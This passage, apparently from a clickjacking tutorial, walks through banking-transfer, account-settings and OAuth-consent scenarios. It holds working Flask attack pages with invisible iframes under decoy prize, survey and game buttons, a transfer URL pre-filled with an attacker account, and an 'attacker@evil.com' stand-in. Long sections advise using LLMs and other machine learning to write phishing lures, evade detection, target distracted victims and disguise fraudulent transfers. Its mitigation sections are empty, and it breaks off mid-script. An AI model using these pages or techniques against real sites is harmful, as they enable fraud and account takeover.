repositioning elements or waiting for dynamic content to load. This technique transforms clickjacking from a static, manually crafted attack into a scalable, automated threat that adapts to target site modifications.

**2. NLP-Powered Phishing Content Generation**

The success of a clickjacking attack heavily depends on convincing victims to visit and interact with the malicious page, making the quality of the lure content critical. Large Language Models (LLMs) such as GPT-4 or Claude can generate highly persuasive, contextually relevant phishing content that dramatically increases victim engagement rates. These models can craft personalized messages based on scraped social media profiles, incorporating the victim's interests, recent activities, and social connections to create irresistible lures. The AI can generate multiple variations of the attack page content, A/B testing different psychological triggers such as urgency ("Only 2 hours left!"), authority ("Official giveaway from @TrustedBrand"), or social proof ("50,000 people have already claimed their prize"). Natural language generation can also create fake comments, testimonials, and user reviews that appear on the malicious page to build credibility. The LLM can adapt the language style, tone, and cultural references based on the target demographic, whether targeting teenagers on TikTok or professionals on LinkedIn. Additionally, AI-generated content can evade text-based phishing detection systems that rely on known malicious phrase patterns. This creates a feedback loop where the AI continuously refines its output based on successful click-through rates, optimizing the attack's effectiveness over time.

**3. Behavioral Analysis for Optimal Attack Timing**

Machine learning models analyzing user behavior patterns can identify the optimal moments to launch clickjacking attacks when victims are most likely to click without scrutiny. By training models on publicly available social media engagement data, attackers can predict when specific users are most active and likely to interact with content. The system can analyze browsing patterns to determine when victims are in a "quick-click" mode, rapidly scrolling through feeds and clicking impulsively without careful inspection. Sentiment analysis of recent posts can identify emotionally charged states (excitement, anger, boredom) that correlate with reduced vigilance and increased susceptibility to deception. The AI can monitor trending topics and breaking news to time attacks around events when users are actively seeking information and more likely to click on related content. Temporal models can identify patterns such as lunch breaks, commute times, or late-night browsing sessions when attention spans are diminished. The system can also learn from failed attack attempts, identifying which user segments and timing windows yield the lowest detection rates. Geographic and cultural event correlation can further refine timing, such as launching attacks during major sporting events or holiday shopping periods when users are primed for promotional content.

**4. Adversarial Machine Learning Against Clickjacking Defenses**

Modern browsers and security tools increasingly use machine learning to detect clickjacking attempts by analyzing page structures, iframe configurations, and visual element overlaps. Adversarial machine learning techniques can be employed to craft attack pages that evade these detection systems while maintaining their malicious functionality. Generative Adversarial Networks (GANs) can produce variations of attack page layouts that minimize detection probability while preserving the precise overlay positioning needed for the attack. Attackers can use gradient-based adversarial attacks to identify which specific CSS properties, DOM structures, or visual patterns trigger detection algorithms and systematically avoid them. Transfer learning from defense model architectures allows attackers to anticipate and counter new detection methods before they're widely deployed. The adversarial system can generate polymorphic attack pages where each visitor receives a slightly different variant, preventing signature-based detection and making blocklisting ineffective. Reinforcement learning agents can iteratively probe detection systems, learning the decision boundaries and crafting attacks that remain just below detection thresholds. This creates an arms race where attack sophistication continuously evolves to match or exceed defensive capabilities, requiring defenders to constantly update their detection models to maintain protection.

#### Mitigation Application

The social media platform implements CSP frame-ancestors to prevent their pages from being embedded:



---

### Scenario 2: Banking Payment Authorization

**Context**: An attacker attempts to trick a victim into authorizing a fraudulent money transfer on their online banking portal.

#### Attack Flow

1. Attacker identifies the transfer confirmation button's position on the bank's website
2. Creates a fake "prize claim" page with the bank's transfer page in an invisible iframe
3. The "Confirm Transfer" button aligns with the "Claim $1000 Prize" button
4. Attacker pre-fills the transfer form using URL parameters or POST manipulation
5. Victim clicks to claim their "prize" but authorizes a real transfer



#### Attack Simulation Code

The following Python script demonstrates how an attacker might construct a clickjacking attack targeting banking payment authorization. This code is provided for **educational purposes only** to understand the attack mechanics.

```python
"""
Clickjacking Attack Simulation: Banking Payment Authorization
=============================================================
EDUCATIONAL PURPOSE ONLY - For security research and awareness training.
This script simulates a financial clickjacking attack with pre-filled form data.

Libraries used:
- Flask: Web framework to serve the attack page
- Selenium: Browser automation for dynamic iframe manipulation (detection)
- BeautifulSoup: HTML parsing to extract form structure from target site
"""

from flask import Flask, render_template_string, request  # Flask for web server
import urllib.parse  # For encoding URL parameters safely

# Initialize Flask application
app = Flask(__name__)

# Malicious page template - mimics a prize claiming interface
BANKING_ATTACK_TEMPLATE = """
<!DOCTYPE html>
<html>
<head>
    <title>Congratulations! Claim Your $1000 Prize</title>
    <style>
        /* Main container that holds both layers of the attack */
        .attack-wrapper {
            position: relative;
            width: 800px;
            height: 600px;
            margin: 50px auto;
            overflow: hidden;  /* Hide any iframe overflow */
        }
        
        /* The invisible iframe containing the banking portal */
        .bank-iframe {
            position: absolute;
            top: {{ iframe_offset_y }}px;  /* Offset to position specific page section */
            left: {{ iframe_offset_x }}px;
            width: 1200px;  /* Larger than container to show specific section */
            height: 900px;
            opacity: {{ debug_opacity }};  /* 0 for attack, 0.3 for debugging */
            z-index: 10;  /* Above the decoy layer */
            border: none;
            pointer-events: auto;  /* Capture all click events */
            transform: scale({{ scale_factor }});  /* Scale to match button sizes */
            transform-origin: top left;
        }
        
        /* The visible fake prize page that deceives the victim */
        .decoy-layer {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            z-index: 1;  /* Below the invisible iframe */
            background: linear-gradient(180deg, #2c3e50, #1a252f);
            display: flex;
            flex-direction: column;
            align-items: center;
            justify-content: center;
            color: white;
            font-family: 'Segoe UI', Arial, sans-serif;
        }
        
        /* Fake claim button styled to look attractive */
        .claim-button {
            position: absolute;
            top: {{ button_y }}px;  /* Precisely under bank's confirm button */
            left: {{ button_x }}px;
            padding: 20px 60px;
            font-size: 24px;
            font-weight: bold;
            background: linear-gradient(45deg, #27ae60, #2ecc71);
            color: white;
            border: none;
            border-radius: 10px;
            cursor: pointer;
            box-shadow: 0 4px 15px rgba(46, 204, 113, 0.4);
            animation: pulse 2s infinite;  /* Attention-grabbing animation */
        }
        
        /* Pulsing animation to draw victim's attention */
        @keyframes pulse {
            0%, 100% { transform: scale(1); }
            50% { transform: scale(1.05); }
        }
        
        /* Fake urgency timer */
        .timer {
            font-size: 48px;
            color: #e74c3c;
            margin-bottom: 20px;
        }
    </style>
</head>
<body style="margin: 0; background: #1a1a2e;">
    <div class="attack-wrapper">
        <!-- Hidden banking iframe with pre-filled transfer details -->
        <!-- URL parameters inject the attacker's account as recipient -->
        <iframe 
            class="bank-iframe"
            src="{{ bank_url }}"
            sandbox="allow-scripts allow-same-origin allow-forms allow-top-navigation">
            <!-- sandbox allows form submission while preventing some escapes -->
        </iframe>
        
        <!-- Visible decoy content -->
        <div class="decoy-layer">
            <h1>🏆 YOU'VE WON $1,000! 🏆</h1>
            <div class="timer" id="countdown">02:59</div>
            <p>Your prize is reserved! Click below before time runs out!</p>
            <!-- This button is positioned under the bank's "Confirm Transfer" -->
            <button class="claim-button">💰 CLAIM MY $1,000 NOW! 💰</button>
            <p style="font-size: 12px; margin-top: 30px; color: #666;">
                Powered by TotallyLegitPrizes.com™
            </p>
        </div>
    </div>
    
    <!-- Countdown timer script to create urgency -->
    <script>
        // Fake countdown timer to pressure victims into clicking quickly
        let timeLeft = 179;  // 2:59 starting time
        const timerElement = document.getElementById('countdown');
        
        setInterval(() => {
            const minutes = Math.floor(timeLeft / 60);
            const seconds = timeLeft % 60;
            timerElement.textContent = 
                `${minutes.toString().padStart(2, '0')}:${seconds.toString().padStart(2, '0')}`;
            timeLeft--;
            
            // Flash red when time is "running out" to increase pressure
            if (timeLeft < 30) {
                timerElement.style.animation = 'pulse 0.5s infinite';
            }
        }, 1000);
    </script>
</body>
</html>
"""

def construct_attack_url(base_bank_url, attacker_account, amount):
    """
    Constructs the banking URL with pre-filled transfer parameters.
    Many banks accept GET/POST parameters to pre-populate forms.
    
    Args:
        base_bank_url: The bank's transfer page URL
        attacker_account: Account number to receive stolen funds
        amount: Amount to transfer
    
    Returns:
        URL string with encoded payment parameters
    """
    # Build query parameters for pre-filling the transfer form
    params = {
        'recipient': attacker_account,  # Attacker's account number
        'amount': amount,               # Transfer amount
        'reference': 'Invoice-Payment', # Innocent-looking reference
        'currency': 'USD'
    }
    
    # Properly encode parameters to avoid detection by simple filters
    query_string = urllib.parse.urlencode(params)
    return f"{base_bank_url}?{query_string}"

# Attack configuration - customized per target bank
ATTACK_CONFIG = {
    'base_bank_url': 'https://bank.example.com/transfer',
    'attacker_account': 'ATTACKER-IBAN-12345',
    'amount': '500.00',
    'iframe_offset_x': -200,  # Horizontal scroll to center the confirm button
    'iframe_offset_y': -150,  # Vertical scroll to show just the button
    'button_x': 300,          # X position of decoy button
    'button_y': 350,          # Y position of decoy button
    'scale_factor': 1.0,      # Scale iframe content if needed
    'debug_opacity': 0.0      # Set to 0.3 for calibration, 0 for attack
}

@app.route('/')
def attack_page():
    """Serves the main clickjacking attack page."""
    bank_url = construct_attack_url(
        ATTACK_CONFIG['base_bank_url'],
        ATTACK_CONFIG['attacker_account'],
        ATTACK_CONFIG['amount']
    )
    
    return render_template_string(
        BANKING_ATTACK_TEMPLATE,
        bank_url=bank_url,
        iframe_offset_x=ATTACK_CONFIG['iframe_offset_x'],
        iframe_offset_y=ATTACK_CONFIG['iframe_offset_y'],
        button_x=ATTACK_CONFIG['button_x'],
        button_y=ATTACK_CONFIG['button_y'],
        scale_factor=ATTACK_CONFIG['scale_factor'],
        debug_opacity=ATTACK_CONFIG['debug_opacity']
    )

if __name__ == '__main__':
    print("[!] EDUCATIONAL BANKING CLICKJACKING DEMO - NEVER USE MALICIOUSLY")
    print("[*] This demonstrates how attackers target financial institutions")
    print("[*] Attack simulation at: http://localhost:5001/")
    app.run(host='127.0.0.1', port=5001, debug=True)
```

#### AI-ML-Enhanced Attack Techniques

**1. Reinforcement Learning for Dynamic Button Tracking**

Banking websites frequently employ dynamic interfaces where buttons may shift position based on form validation states, user interactions, or responsive design breakpoints, making static clickjacking positioning ineffective. Reinforcement Learning (RL) agents can be trained to continuously track and predict the position of the target "Confirm Transfer" button in real-time, adjusting the attack overlay dynamically. The RL agent observes the banking page state through periodic screenshots and learns which user interactions or page events cause button repositioning. By modeling the page as a Markov Decision Process, the agent learns policies for maintaining perfect button alignment despite UI animations, loading states, or validation message displays. The system uses computer vision to detect the current button position and calculates the necessary CSS adjustments to realign the decoy element. This approach is particularly effective against banks that implement subtle anti-clickjacking measures such as randomly positioned confirmation dialogs or moving button locations. The RL model improves over time, learning patterns specific to each target bank's interface behavior and building a repository of successful alignment strategies. Advanced implementations can even predict button movement before it occurs, ensuring seamless overlay maintenance throughout the entire attack interaction.

**2. Deep Learning-Based Session State Inference**

Successful banking clickjacking requires that victims are already authenticated with active sessions, but attackers traditionally have no visibility into whether a victim is logged in before launching the attack. Deep learning models analyzing public behavioral signals can predict with high accuracy whether a specific user is likely to have an active banking session at any given moment. The model trains on patterns such as typical banking hours for different demographics, payday cycles, bill payment schedules, and correlations with other online activities that suggest recent banking access. Social media activity analysis can reveal indicators like mentions of purchases, complaints about bank services, or travel plans that correlate with banking session patterns. Browser fingerprinting data collected from tracking networks can inform whether the victim recently visited banking domains, even without direct access to browsing history. The prediction model outputs a session probability score, allowing attackers to time their phishing emails or malvertising campaigns for moments when victims are most likely to be authenticated. This dramatically increases the attack success rate by avoiding wasted attempts on logged-out users who would simply see a login page in the hidden iframe. Integration with email campaign systems enables automated timing of phishing messages to coincide with predicted banking sessions for each target.

**3. Generative AI for Pixel-Perfect Bank Interface Cloning**

Modern clickjacking attacks are significantly more convincing when the visible decoy layer closely resembles the target bank's legitimate interface, reducing victim suspicion and increasing click-through rates. Generative Adversarial Networks (GANs) trained on banking website designs can automatically generate decoy interfaces that mimic the visual style, color schemes, and UI patterns of specific financial institutions. The generator network learns to reproduce fonts, button styles, iconography, and layout conventions used by major banks, creating highly authentic-looking prize claim pages that feel consistent with the hidden banking interface. Style transfer techniques can automatically adapt a generic attack template to match any target bank's visual identity, requiring minimal manual design work. The discriminator network evaluates generated pages against real banking interfaces, ensuring the output is indistinguishable to untrained observers. This automation enables attackers to rapidly scale their campaigns across hundreds of banking targets without custom design work for each institution. The AI can also generate matching email templates, SMS messages, and social media posts that maintain visual consistency with the attack page, creating a cohesive and convincing phishing ecosystem. Advanced implementations can clone specific page elements in real-time, dynamically updating the decoy layer to match any changes in the legitimate bank's current promotion designs.

**4. Natural Language Processing for Transaction Description Camouflage**

Banking transfer forms typically include reference or description fields that appear in transaction histories, potentially alerting victims to fraudulent activity before funds can be extracted. Large Language Models can generate contextually appropriate transaction descriptions that blend seamlessly with victims' typical payment patterns, delaying detection and extending the window for fund extraction. The LLM analyzes patterns in common transaction descriptions such as utility payments, subscription services, vendor names, and invoice formats to generate believable camouflage text. By incorporating victim-specific context from social media profiles or leaked data, the AI can craft descriptions referencing real services the victim uses, such as "Netflix Monthly - December" or "Amazon Marketplace Order #847293." The model can also generate descriptions that exploit cognitive biases, such as small recurring amounts that victims are less likely to scrutinize or descriptions that match expected bills arriving at that time of month. Temporal awareness allows the system to reference appropriate seasonal payments like "Holiday Gift Purchase" in December or "Tax Preparation Fee" in April. Multi-language support enables attacks targeting international banking systems with culturally appropriate transaction descriptions. The AI continuously learns from successful transactions to identify which description patterns are least likely to trigger fraud investigation calls or victim complaints, refining its output for maximum stealth.

#### Mitigation Application

The bank implements multiple layers of defense:



---

### Scenario 3: Account Settings Manipulation

**Context**: An attacker wants to change a victim's email address on a SaaS platform to enable subsequent account takeover via password reset.

#### Attack Flow

1. Attacker identifies the account settings page with email change functionality
2. Creates a page with a fake survey requiring multiple clicks
3. Hidden iframe contains the email settings form
4. Sequential clicks fill in the attacker's email and submit the form
5. Victim's account email is changed; attacker requests password reset



#### Attack Simulation Code

The following Python script demonstrates how an attacker might construct a multi-step clickjacking attack targeting account settings. This code is provided for **educational purposes only** to understand the attack mechanics.

```python
"""
Clickjacking Attack Simulation: Account Settings Manipulation
==============================================================
EDUCATIONAL PURPOSE ONLY - For security research and awareness training.
This script simulates a multi-step clickjacking attack using a fake survey.

Libraries used:
- Flask: Web framework to serve the malicious survey page
- JavaScript: Client-side click orchestration and positioning
"""

from flask import Flask, render_template_string  # Flask for web server

# Initialize Flask application
app = Flask(__name__)

# Multi-step attack page template - fake survey with sequential clicks
SURVEY_ATTACK_TEMPLATE = """
<!DOCTYPE html>
<html>
<head>
    <title>Quick Survey - Win a $50 Gift Card!</title>
    <style>
        /* Hidden iframe containing the target SaaS settings page */
        .hidden-target {
            position: fixed;  /* Fixed position to stay in place */
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            opacity: {{ opacity }};  /* 0 for attack, 0.3-0.5 for calibration */
            z-index: 1000;  /* Highest layer - receives all clicks */
            border: none;
            pointer-events: auto;
        }
        
        /* Survey container - visible to the victim */
        .survey-container {
            position: relative;
            z-index: 1;  /* Below the invisible iframe */
            max-width: 600px;
            margin: 50px auto;
            padding: 30px;
            background: white;
            border-radius: 15px;
            box-shadow: 0 10px 30px rgba(0,0,0,0.2);
            font-family: 'Segoe UI', Arial, sans-serif;
        }
        
        /* Progress bar to make survey feel legitimate */
        .progress-bar {
            width: 100%;
            height: 10px;
            background: #e0e0e0;
            border-radius: 5px;
            margin-bottom: 20px;
        }
        
        .progress-fill {
            height: 100%;
            background: linear-gradient(90deg, #4CAF50, #8BC34A);
            border-radius: 5px;
            transition: width 0.3s ease;
        }
        
        /* Survey question styling */
        .question {
            font-size: 18px;
            color: #333;
            margin-bottom: 20px;
        }
        
        /* Answer buttons - positioned to align with target form elements */
        .answer-btn {
            display: block;
            width: 100%;
            padding: 15px 25px;
            margin: 10px 0;
            font-size: 16px;
            color: white;
            border: none;
            border-radius: 8px;
            cursor: pointer;
            transition: transform 0.2s, box-shadow 0.2s;
        }
        
        .answer-btn:hover {
            transform: translateY(-2px);
            box-shadow: 0 4px 12px rgba(0,0,0,0.2);
        }
        
        /* Different colors for survey answers */
        .btn-a { background: #2196F3; }
        .btn-b { background: #9C27B0; }
        .btn-c { background: #FF9800; }
        .btn-submit { background: #4CAF50; }
        
        body {
            background: linear-gradient(135deg, #667eea, #764ba2);
            min-height: 100vh;
            margin: 0;
        }
    </style>
</head>
<body>
    <!-- Invisible iframe loading the target SaaS settings page -->
    <iframe 
        class="hidden-target" 
        id="targetFrame"
        src="{{ target_settings_url }}"
        sandbox="allow-scripts allow-same-origin allow-forms">
    </iframe>
    
    <!-- Visible survey interface -->
    <div class="survey-container">
        <h2>📊 Quick Survey - Win $50!</h2>
        
        <div class="progress-bar">
            <div class="progress-fill" id="progress" style="width: 0%"></div>
        </div>
        
        <!-- Question 1: Actually clicks on the email input field -->
        <div id="step1" class="survey-step">
            <p class="question">Question 1: How often do you shop online?</p>
            <button class="answer-btn btn-a" onclick="nextStep(1)">Daily</button>
            <button class="answer-btn btn-b" onclick="nextStep(1)">Weekly</button>
            <button class="answer-btn btn-c" onclick="nextStep(1)">Monthly</button>
        </div>
        
        <!-- Question 2: Types attacker's email (click on autofill suggestion) -->
        <div id="step2" class="survey-step" style="display:none;">
            <p class="question">Question 2: What's your preferred payment method?</p>
            <button class="answer-btn btn-a" onclick="nextStep(2)">Credit Card</button>
            <button class="answer-btn btn-b" onclick="nextStep(2)">PayPal</button>
            <button class="answer-btn btn-c" onclick="nextStep(2)">Bank Transfer</button>
        </div>
        
        <!-- Question 3: Clicks the "Save Changes" button -->
        <div id="step3" class="survey-step" style="display:none;">
            <p class="question">Question 3: Would you recommend our service?</p>
            <button class="answer-btn btn-a" onclick="nextStep(3)">Definitely!</button>
            <button class="answer-btn btn-b" onclick="nextStep(3)">Maybe</button>
            <button class="answer-btn btn-c" onclick="nextStep(3)">Not sure</button>
        </div>
        
        <!-- Final step: Submit (clicks confirmation dialog OK button) -->
        <div id="step4" class="survey-step" style="display:none;">
            <p class="question">Thanks! Click below to claim your gift card:</p>
            <button class="answer-btn btn-submit" onclick="completeAttack()">
                🎁 Claim My $50 Gift Card!
            </button>
        </div>
    </div>
    
    <script>
        // Track which step we're on to coordinate with iframe positioning
        let currentStep = 0;
        
        // Configuration: button positions that align with target form elements
        // These would be calibrated for the specific target SaaS platform
        const stepPositions = {
            1: { top: 250, left: 200 },  // Email input field
            2: { top: 250, left: 200 },  // Autofill/clear and type
            3: { top: 350, left: 300 },  // Save Changes button
            4: { top: 400, left: 350 }   // Confirmation OK button
        };
        
        function nextStep(step) {
            // Hide current step, show next step
            document.getElementById('step' + step).style.display = 'none';
            document.getElementById('step' + (step + 1)).style.display = 'block';
            
            // Update progress bar to make survey feel legitimate
            document.getElementById('progress').style.width = (step * 25) + '%';
            
            currentStep = step;
            
            // Log for demonstration - in real attack, this would be silent
            console.log('[Attack] Step ' + step + ' completed - clicked target position');
        }
        
        function completeAttack() {
            // Final step - trigger the confirmation
            document.getElementById('progress').style.width = '100%';
            
            // Show fake success message
            document.querySelector('.survey-container').innerHTML = `
                <h2>🎉 Congratulations!</h2>
                <p>Your $50 gift card code is: FAKE-CODE-1234</p>
                <p style="color: #666; font-size: 12px;">
                    (This is a demonstration - no actual gift card exists)
                </p>
            `;
            
            console.log('[Attack] Attack sequence completed');
        }
    </script>
</body>
</html>
"""

# Attack configuration
ATTACK_CONFIG = {
    # The SaaS platform's account settings page
    'target_settings_url': 'https://saas.example.com/account/settings',
    
    # Attacker's email to inject into the email change field
    'attacker_email': 'attacker@evil.com',
    
    # Opacity for testing (0 for real attack, 0.3-0.5 for calibration)
    'opacity': 0.0
}

@app.route('/')
def serve_survey_attack():
    """
    Serves the fake survey page that orchestrates the multi-step attack.
    Each survey question aligns with a step in the account takeover process.
    """
    return render_template_string(
        SURVEY_ATTACK_TEMPLATE,
        target_settings_url=ATTACK_CONFIG['target_settings_url'],
        attacker_email=ATTACK_CONFIG['attacker_email'],
        opacity=ATTACK_CONFIG['opacity']
    )

@app.route('/calibrate')
def calibration_mode():
    """
    Calibration mode with semi-transparent iframe.
    Attackers use this to align survey buttons with form elements.
    """
    return render_template_string(
        SURVEY_ATTACK_TEMPLATE,
        target_settings_url=ATTACK_CONFIG['target_settings_url'],
        attacker_email=ATTACK_CONFIG['attacker_email'],
        opacity=0.4  # Visible for alignment testing
    )

if __name__ == '__main__':
    print("[!] EDUCATIONAL MULTI-STEP CLICKJACKING DEMO")
    print("[*] Demonstrates survey-based account takeover attack")
    print("[*] Attack page: http://localhost:5002/")
    print("[*] Calibration: http://localhost:5002/calibrate")
    app.run(host='127.0.0.1', port=5002, debug=True)
```

#### AI-ML-Enhanced Attack Techniques

**1. Keystroke Injection via AI-Optimized Click Sequences**

Multi-step clickjacking attacks that require data entry traditionally struggle because victims must type specific values like email addresses, which cannot be achieved through clicks alone. AI-powered attack systems can analyze the target form's autocomplete behavior and browser history patterns to identify pre-existing autocomplete suggestions that match attacker-controlled values. Machine learning models can be trained to recognize autocomplete dropdown appearance patterns across different browsers and operating systems, enabling precise timing of clicks to select suggested values. The AI can orchestrate complex click sequences that first focus the input field, then trigger autocomplete by typing a partial string through rapid clicking on browser's on-screen keyboard elements. Neural networks analyzing video feeds of the hidden iframe can detect when autocomplete suggestions appear and automatically adjust click positions to select the attacker's email from suggestions. For platforms without autocomplete, the AI can coordinate with separate browser extensions or compromised keyboard drivers to inject keystrokes between clickjacking click events. The system learns optimal timing patterns for each browser and OS combination, adapting its click cadence to match the target environment's UI responsiveness. This technique transforms what was previously an impossible attack vector into a viable multi-step account takeover strategy.

**2. Form Flow Prediction Using Sequence-to-Sequence Models**

SaaS platforms frequently implement multi-step forms with dynamic elements that appear based on previous selections, making it impossible to pre-plan static click positions for the entire attack sequence. Sequence-to-sequence (Seq2Seq) neural networks can learn the patterns of form navigation for specific target platforms, predicting which UI elements will appear based on previous interactions. The model is trained on recordings of legitimate form interactions, learning the conditional relationships between form steps, validation messages, and dynamic content. During an attack, the AI observes each step's outcome through screenshot analysis and predicts the optimal next click position before it becomes visible to the hidden layer. This predictive capability allows the attack page to pre-position decoy elements, ensuring they align with dynamically appearing form controls the moment they render. The model can handle edge cases such as form validation errors, session timeout warnings, or security challenge prompts by recognizing these conditions and adapting the attack flow. Transfer learning enables rapid adaptation to new SaaS platforms by fine-tuning pre-trained models on small samples of the target's form behavior. This creates attacks that can navigate complex, multi-branch form workflows that would be impossible to script statically.

**3. Social Engineering Optimization Through Persuasion Modeling**

The fake survey or game used as the attack's visible layer must be compelling enough to keep victims clicking through multiple steps without suspicion, requiring sophisticated understanding of human psychology. Machine learning models trained on marketing and persuasion research can generate optimized survey content that maximizes completion rates and minimizes drop-off at each step. The AI analyzes target demographics from social media profiles to personalize survey topics, using interests, profession, and online behavior patterns to select maximally engaging questions. Reinforcement learning agents test different question sequences, reward structures (gift card values, prize descriptions), and visual designs to identify the most effective combinations for each demographic segment. The model optimizes the length and pacing of the survey to balance maintaining victim engagement with completing the necessary number of attack clicks. Sentiment analysis of victim responses and click patterns enables real-time adaptation of the survey flow, detecting hesitation or suspicion and injecting confidence-building elements. A/B testing frameworks automatically evolve the attack page design, continuously improving conversion rates across thousands of attack instances. The system can even generate personalized survey questions that reference the victim's actual interests or recent activities, dramatically increasing engagement.

**4. Account Recovery Flow Exploitation via Knowledge Graph Analysis**

After successfully changing a victim's email address, attackers must navigate the platform's password reset and account recovery processes to complete the takeover, which vary significantly between platforms. Knowledge graph-based AI systems can map the complete account recovery workflows of target platforms, including all verification steps, timing windows, and potential security blocks. Natural Language Processing models analyze platform help documentation, user forum discussions, and support tickets to extract undocumented recovery behaviors and edge cases. The knowledge graph captures relationships between account attributes (email, phone, 2FA status) and available recovery paths, identifying the optimal attack sequence for each victim's account configuration. Machine learning classifies which recovery methods are most likely to succeed based on victim profiles, such as whether SMS-based recovery is more likely for older users versus app-based 2FA for tech-savvy targets. The AI can time the password reset request optimally, considering factors like support staff availability, automated system delays, and notification timing to minimize detection probability. Graph neural networks identify multi-hop recovery paths that bypass individual security controls by exploiting interactions between security features. This comprehensive understanding enables attackers to complete the account takeover phase with maximum efficiency and minimum risk of triggering fraud alerts.

#### Mitigation Application

The SaaS platform implements comprehensive protections:



---

### Scenario 4: Multi-Step Form Submission Attack

**Context**: An attacker wants to trick a victim into submitting a multi-step form that grants OAuth permissions to a malicious application.

#### Attack Flow

1. Attacker identifies an OAuth consent flow with multiple confirmation steps
2. Creates an engaging "memory game" that requires clicking in sequence
3. Each game click corresponds to a step in the OAuth authorization flow
4. The victim completes the "game" while unknowingly granting full account access
5. Attacker's application gains access to victim's data and actions



#### Attack Simulation Code

The following Python script demonstrates how an attacker might construct a game-based clickjacking attack targeting OAuth consent flows. This code is provided for **educational purposes only** to understand the attack mechanics.

```python
"""
Clickjacking Attack Simulation: Multi-Step OAuth Permission Attack
===================================================================
EDUCATIONAL PURPOSE ONLY - For security research and awareness training.
This script simulates a game-based clickjacking attack targeting OAuth consent.

Libraries used:
- Flask: Web framework to serve the malicious game page
- JavaScript: Client-side game mechanics and click coordination
"""

from flask import Flask, render_template_string, request  # Flask for web server
import secrets  # For generating OAuth state parameters

# Initialize Flask application
app = Flask(__name__)

# Game-based attack template - memory card game that hijacks OAuth consent
OAUTH_ATTACK_TEMPLATE = """
<!DOCTYPE html>
<html>
<head>
    <title>Memory Master Challenge - Win Prizes!</title>
    <style>
        /* Hidden OAuth consent iframe */
        .oauth-iframe {
            position: fixed;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            opacity: {{ opacity }};  /* 0 for invisible attack */
            z-index: 1000;  /* Highest layer to capture clicks */
            border: none;
            pointer-events: auto;
        }
        
        /* Game container visible to victim */
        .game-container {
            position: relative;
            z-index: 1;  /* Below the invisible OAuth iframe */
            max-width: 800px;
            margin: 30px auto;
            padding: 20px;
            background: linear-gradient(145deg, #1a1a2e, #16213e);
            border-radius: 20px;
            color: white;
            font-family: 'Arial', sans-serif;
        }
        
        /* Score and game header */
        .game-header {
            display: flex;
            justify-content: space-between;
            align-items: center;
            margin-bottom: 20px;
            padding: 15px;
            background: rgba(255,255,255,0.1);
            border-radius: 10px;
        }
        
        .score { 
            font-size: 24px; 
            color: #4CAF50; 
        }
        
        /* Card grid layout */
        .card-grid {
            display: grid;
            grid-template-columns: repeat(4, 1fr);
            gap: 15px;
            padding: 20px;
        }
        
        /* Individual cards - positioned to align with OAuth buttons */
        .card {
            aspect-ratio: 1;
            background: linear-gradient(135deg, #667eea, #764ba2);
            border-radius: 15px;
            cursor: pointer;
            display: flex;
            align-items: center;
            justify-content: center;
            font-size: 40px;
            transition: transform 0.3s, box-shadow 0.3s;
            user-select: none;
        }
        
        .card:hover {
            transform: scale(1.05);
            box-shadow: 0 10px 30px rgba(102, 126, 234, 0.5);
        }
        
        .card.flipped {
            background: linear-gradient(135deg, #11998e, #38ef7d);
        }
        
        .card.matched {
            background: linear-gradient(135deg, #4CAF50, #8BC34A);
            pointer-events: none;
        }
        
        /* Instructions */
        .instructions {
            text-align: center;
            padding: 15px;
            background: rgba(255,255,255,0.05);
            border-radius: 10px;
            margin-top: 20px;
        }
        
        body {
            margin: 0;
            min-height: 100vh;
            background: #0f0f23;
        }
    </style>
</head>
<body>
    <!-- Hidden OAuth consent page in iframe -->
    <!-- The OAuth URL is pre-configured to request sensitive permissions -->
    <iframe 
        class="oauth-iframe" 
        id="oauthFrame"
        src="{{ oauth_url }}"
        sandbox="allow-scripts allow-same-origin allow-forms allow-popups">
    </iframe>
    
    <!-- Visible card game interface -->
    <div class="game-container">
        <div class="game-header">
            <h2>🎮 Memory Master Challenge</h2>
            <div class="score">Score: <span id="score">0</span></div>
        </div>
        
        <div class="card-grid">
            <!-- Each card is positioned to align with specific OAuth consent buttons -->
            <!-- Card 1: Aligns with "Select All Permissions" checkbox -->
            <div class="card" id="card1" onclick="flipCard(1)">❓</div>
            
            <!-- Card 2: Aligns with "Read Access" permission -->
            <div class="card" id="card2" onclick="flipCard(2)">❓</div>
            
            <!-- Card 3: Aligns with "Write Access" permission -->  
            <div class="card" id="card3" onclick="flipCard(3)">❓</div>
            
            <!-- Card 4: Aligns with "Account Info" permission -->
            <div class="card" id="card4" onclick="flipCard(4)">❓</div>
            
            <!-- Card 5: Filler card for game authenticity -->
            <div class="card" id="card5" onclick="flipCard(5)">❓</div>
            
            <!-- Card 6: Aligns with "Allow" button -->
            <div class="card" id="card6" onclick="flipCard(6)">❓</div>
            
            <!-- Card 7: Filler card for game authenticity -->
            <div class="card" id="card7" onclick="flipCard(7)">❓</div>
            
            <!-- Card 8: Aligns with "Confirm Authorization" button -->
            <div class="card" id="card8" onclick="flipCard(8)">❓</div>
        </div>
        
        <div class="instructions">
            <p>🎯 Click cards to find matching pairs and win points!</p>
            <p>💰 Complete the game to enter our $100 prize draw!</p>
        </div>
    </div>
    
    <script>
        // Card symbols for the memory game
        const symbols = ['🎁', '⭐', '🎁', '⭐', '💎', '🎯', '💎', '🎯'];
        let flippedCards = [];
        let matchedPairs = 0;
        let score = 0;
        
        // Track which clicks correspond to critical OAuth actions
        // This maps game clicks to OAuth consent flow steps
        const oauthClickSequence = {
            1: 'select_permissions',    // Clicks "Select All" in OAuth
            3: 'write_permission',       // Confirms write access
            6: 'allow_button',           // Clicks main "Allow" button
            8: 'confirm_authorization'   // Final confirmation
        };
        
        function flipCard(cardNum) {
            const card = document.getElementById('card' + cardNum);
            
            // Prevent clicking already matched or flipped cards
            if (card.classList.contains('matched') || 
                card.classList.contains('flipped') ||
                flippedCards.length >= 2) {
                return;
            }
            
            // Flip the card and show symbol
            card.classList.add('flipped');
            card.innerHTML = symbols[cardNum - 1];
            flippedCards.push({card: card, num: cardNum});
            
            // Log OAuth action for demonstration purposes
            if (oauthClickSequence[cardNum]) {
                console.log('[Attack] OAuth action triggered:', oauthClickSequence[cardNum]);
            }
            
            // Check for match when two cards are flipped
            if (flippedCards.length === 2) {
                setTimeout(checkMatch, 500);
            }
        }
        
        function checkMatch() {
            const [card1, card2] = flippedCards;
            
            if (symbols[card1.num - 1] === symbols[card2.num - 1]) {
                // Cards match - mark as matched
                card1.card.classList.add('matched');
                card2.card.classList.add('matched');
                matchedPairs++;
                score += 100;
                document.getElementById('score').textContent = score;
                
                // Check if game is complete
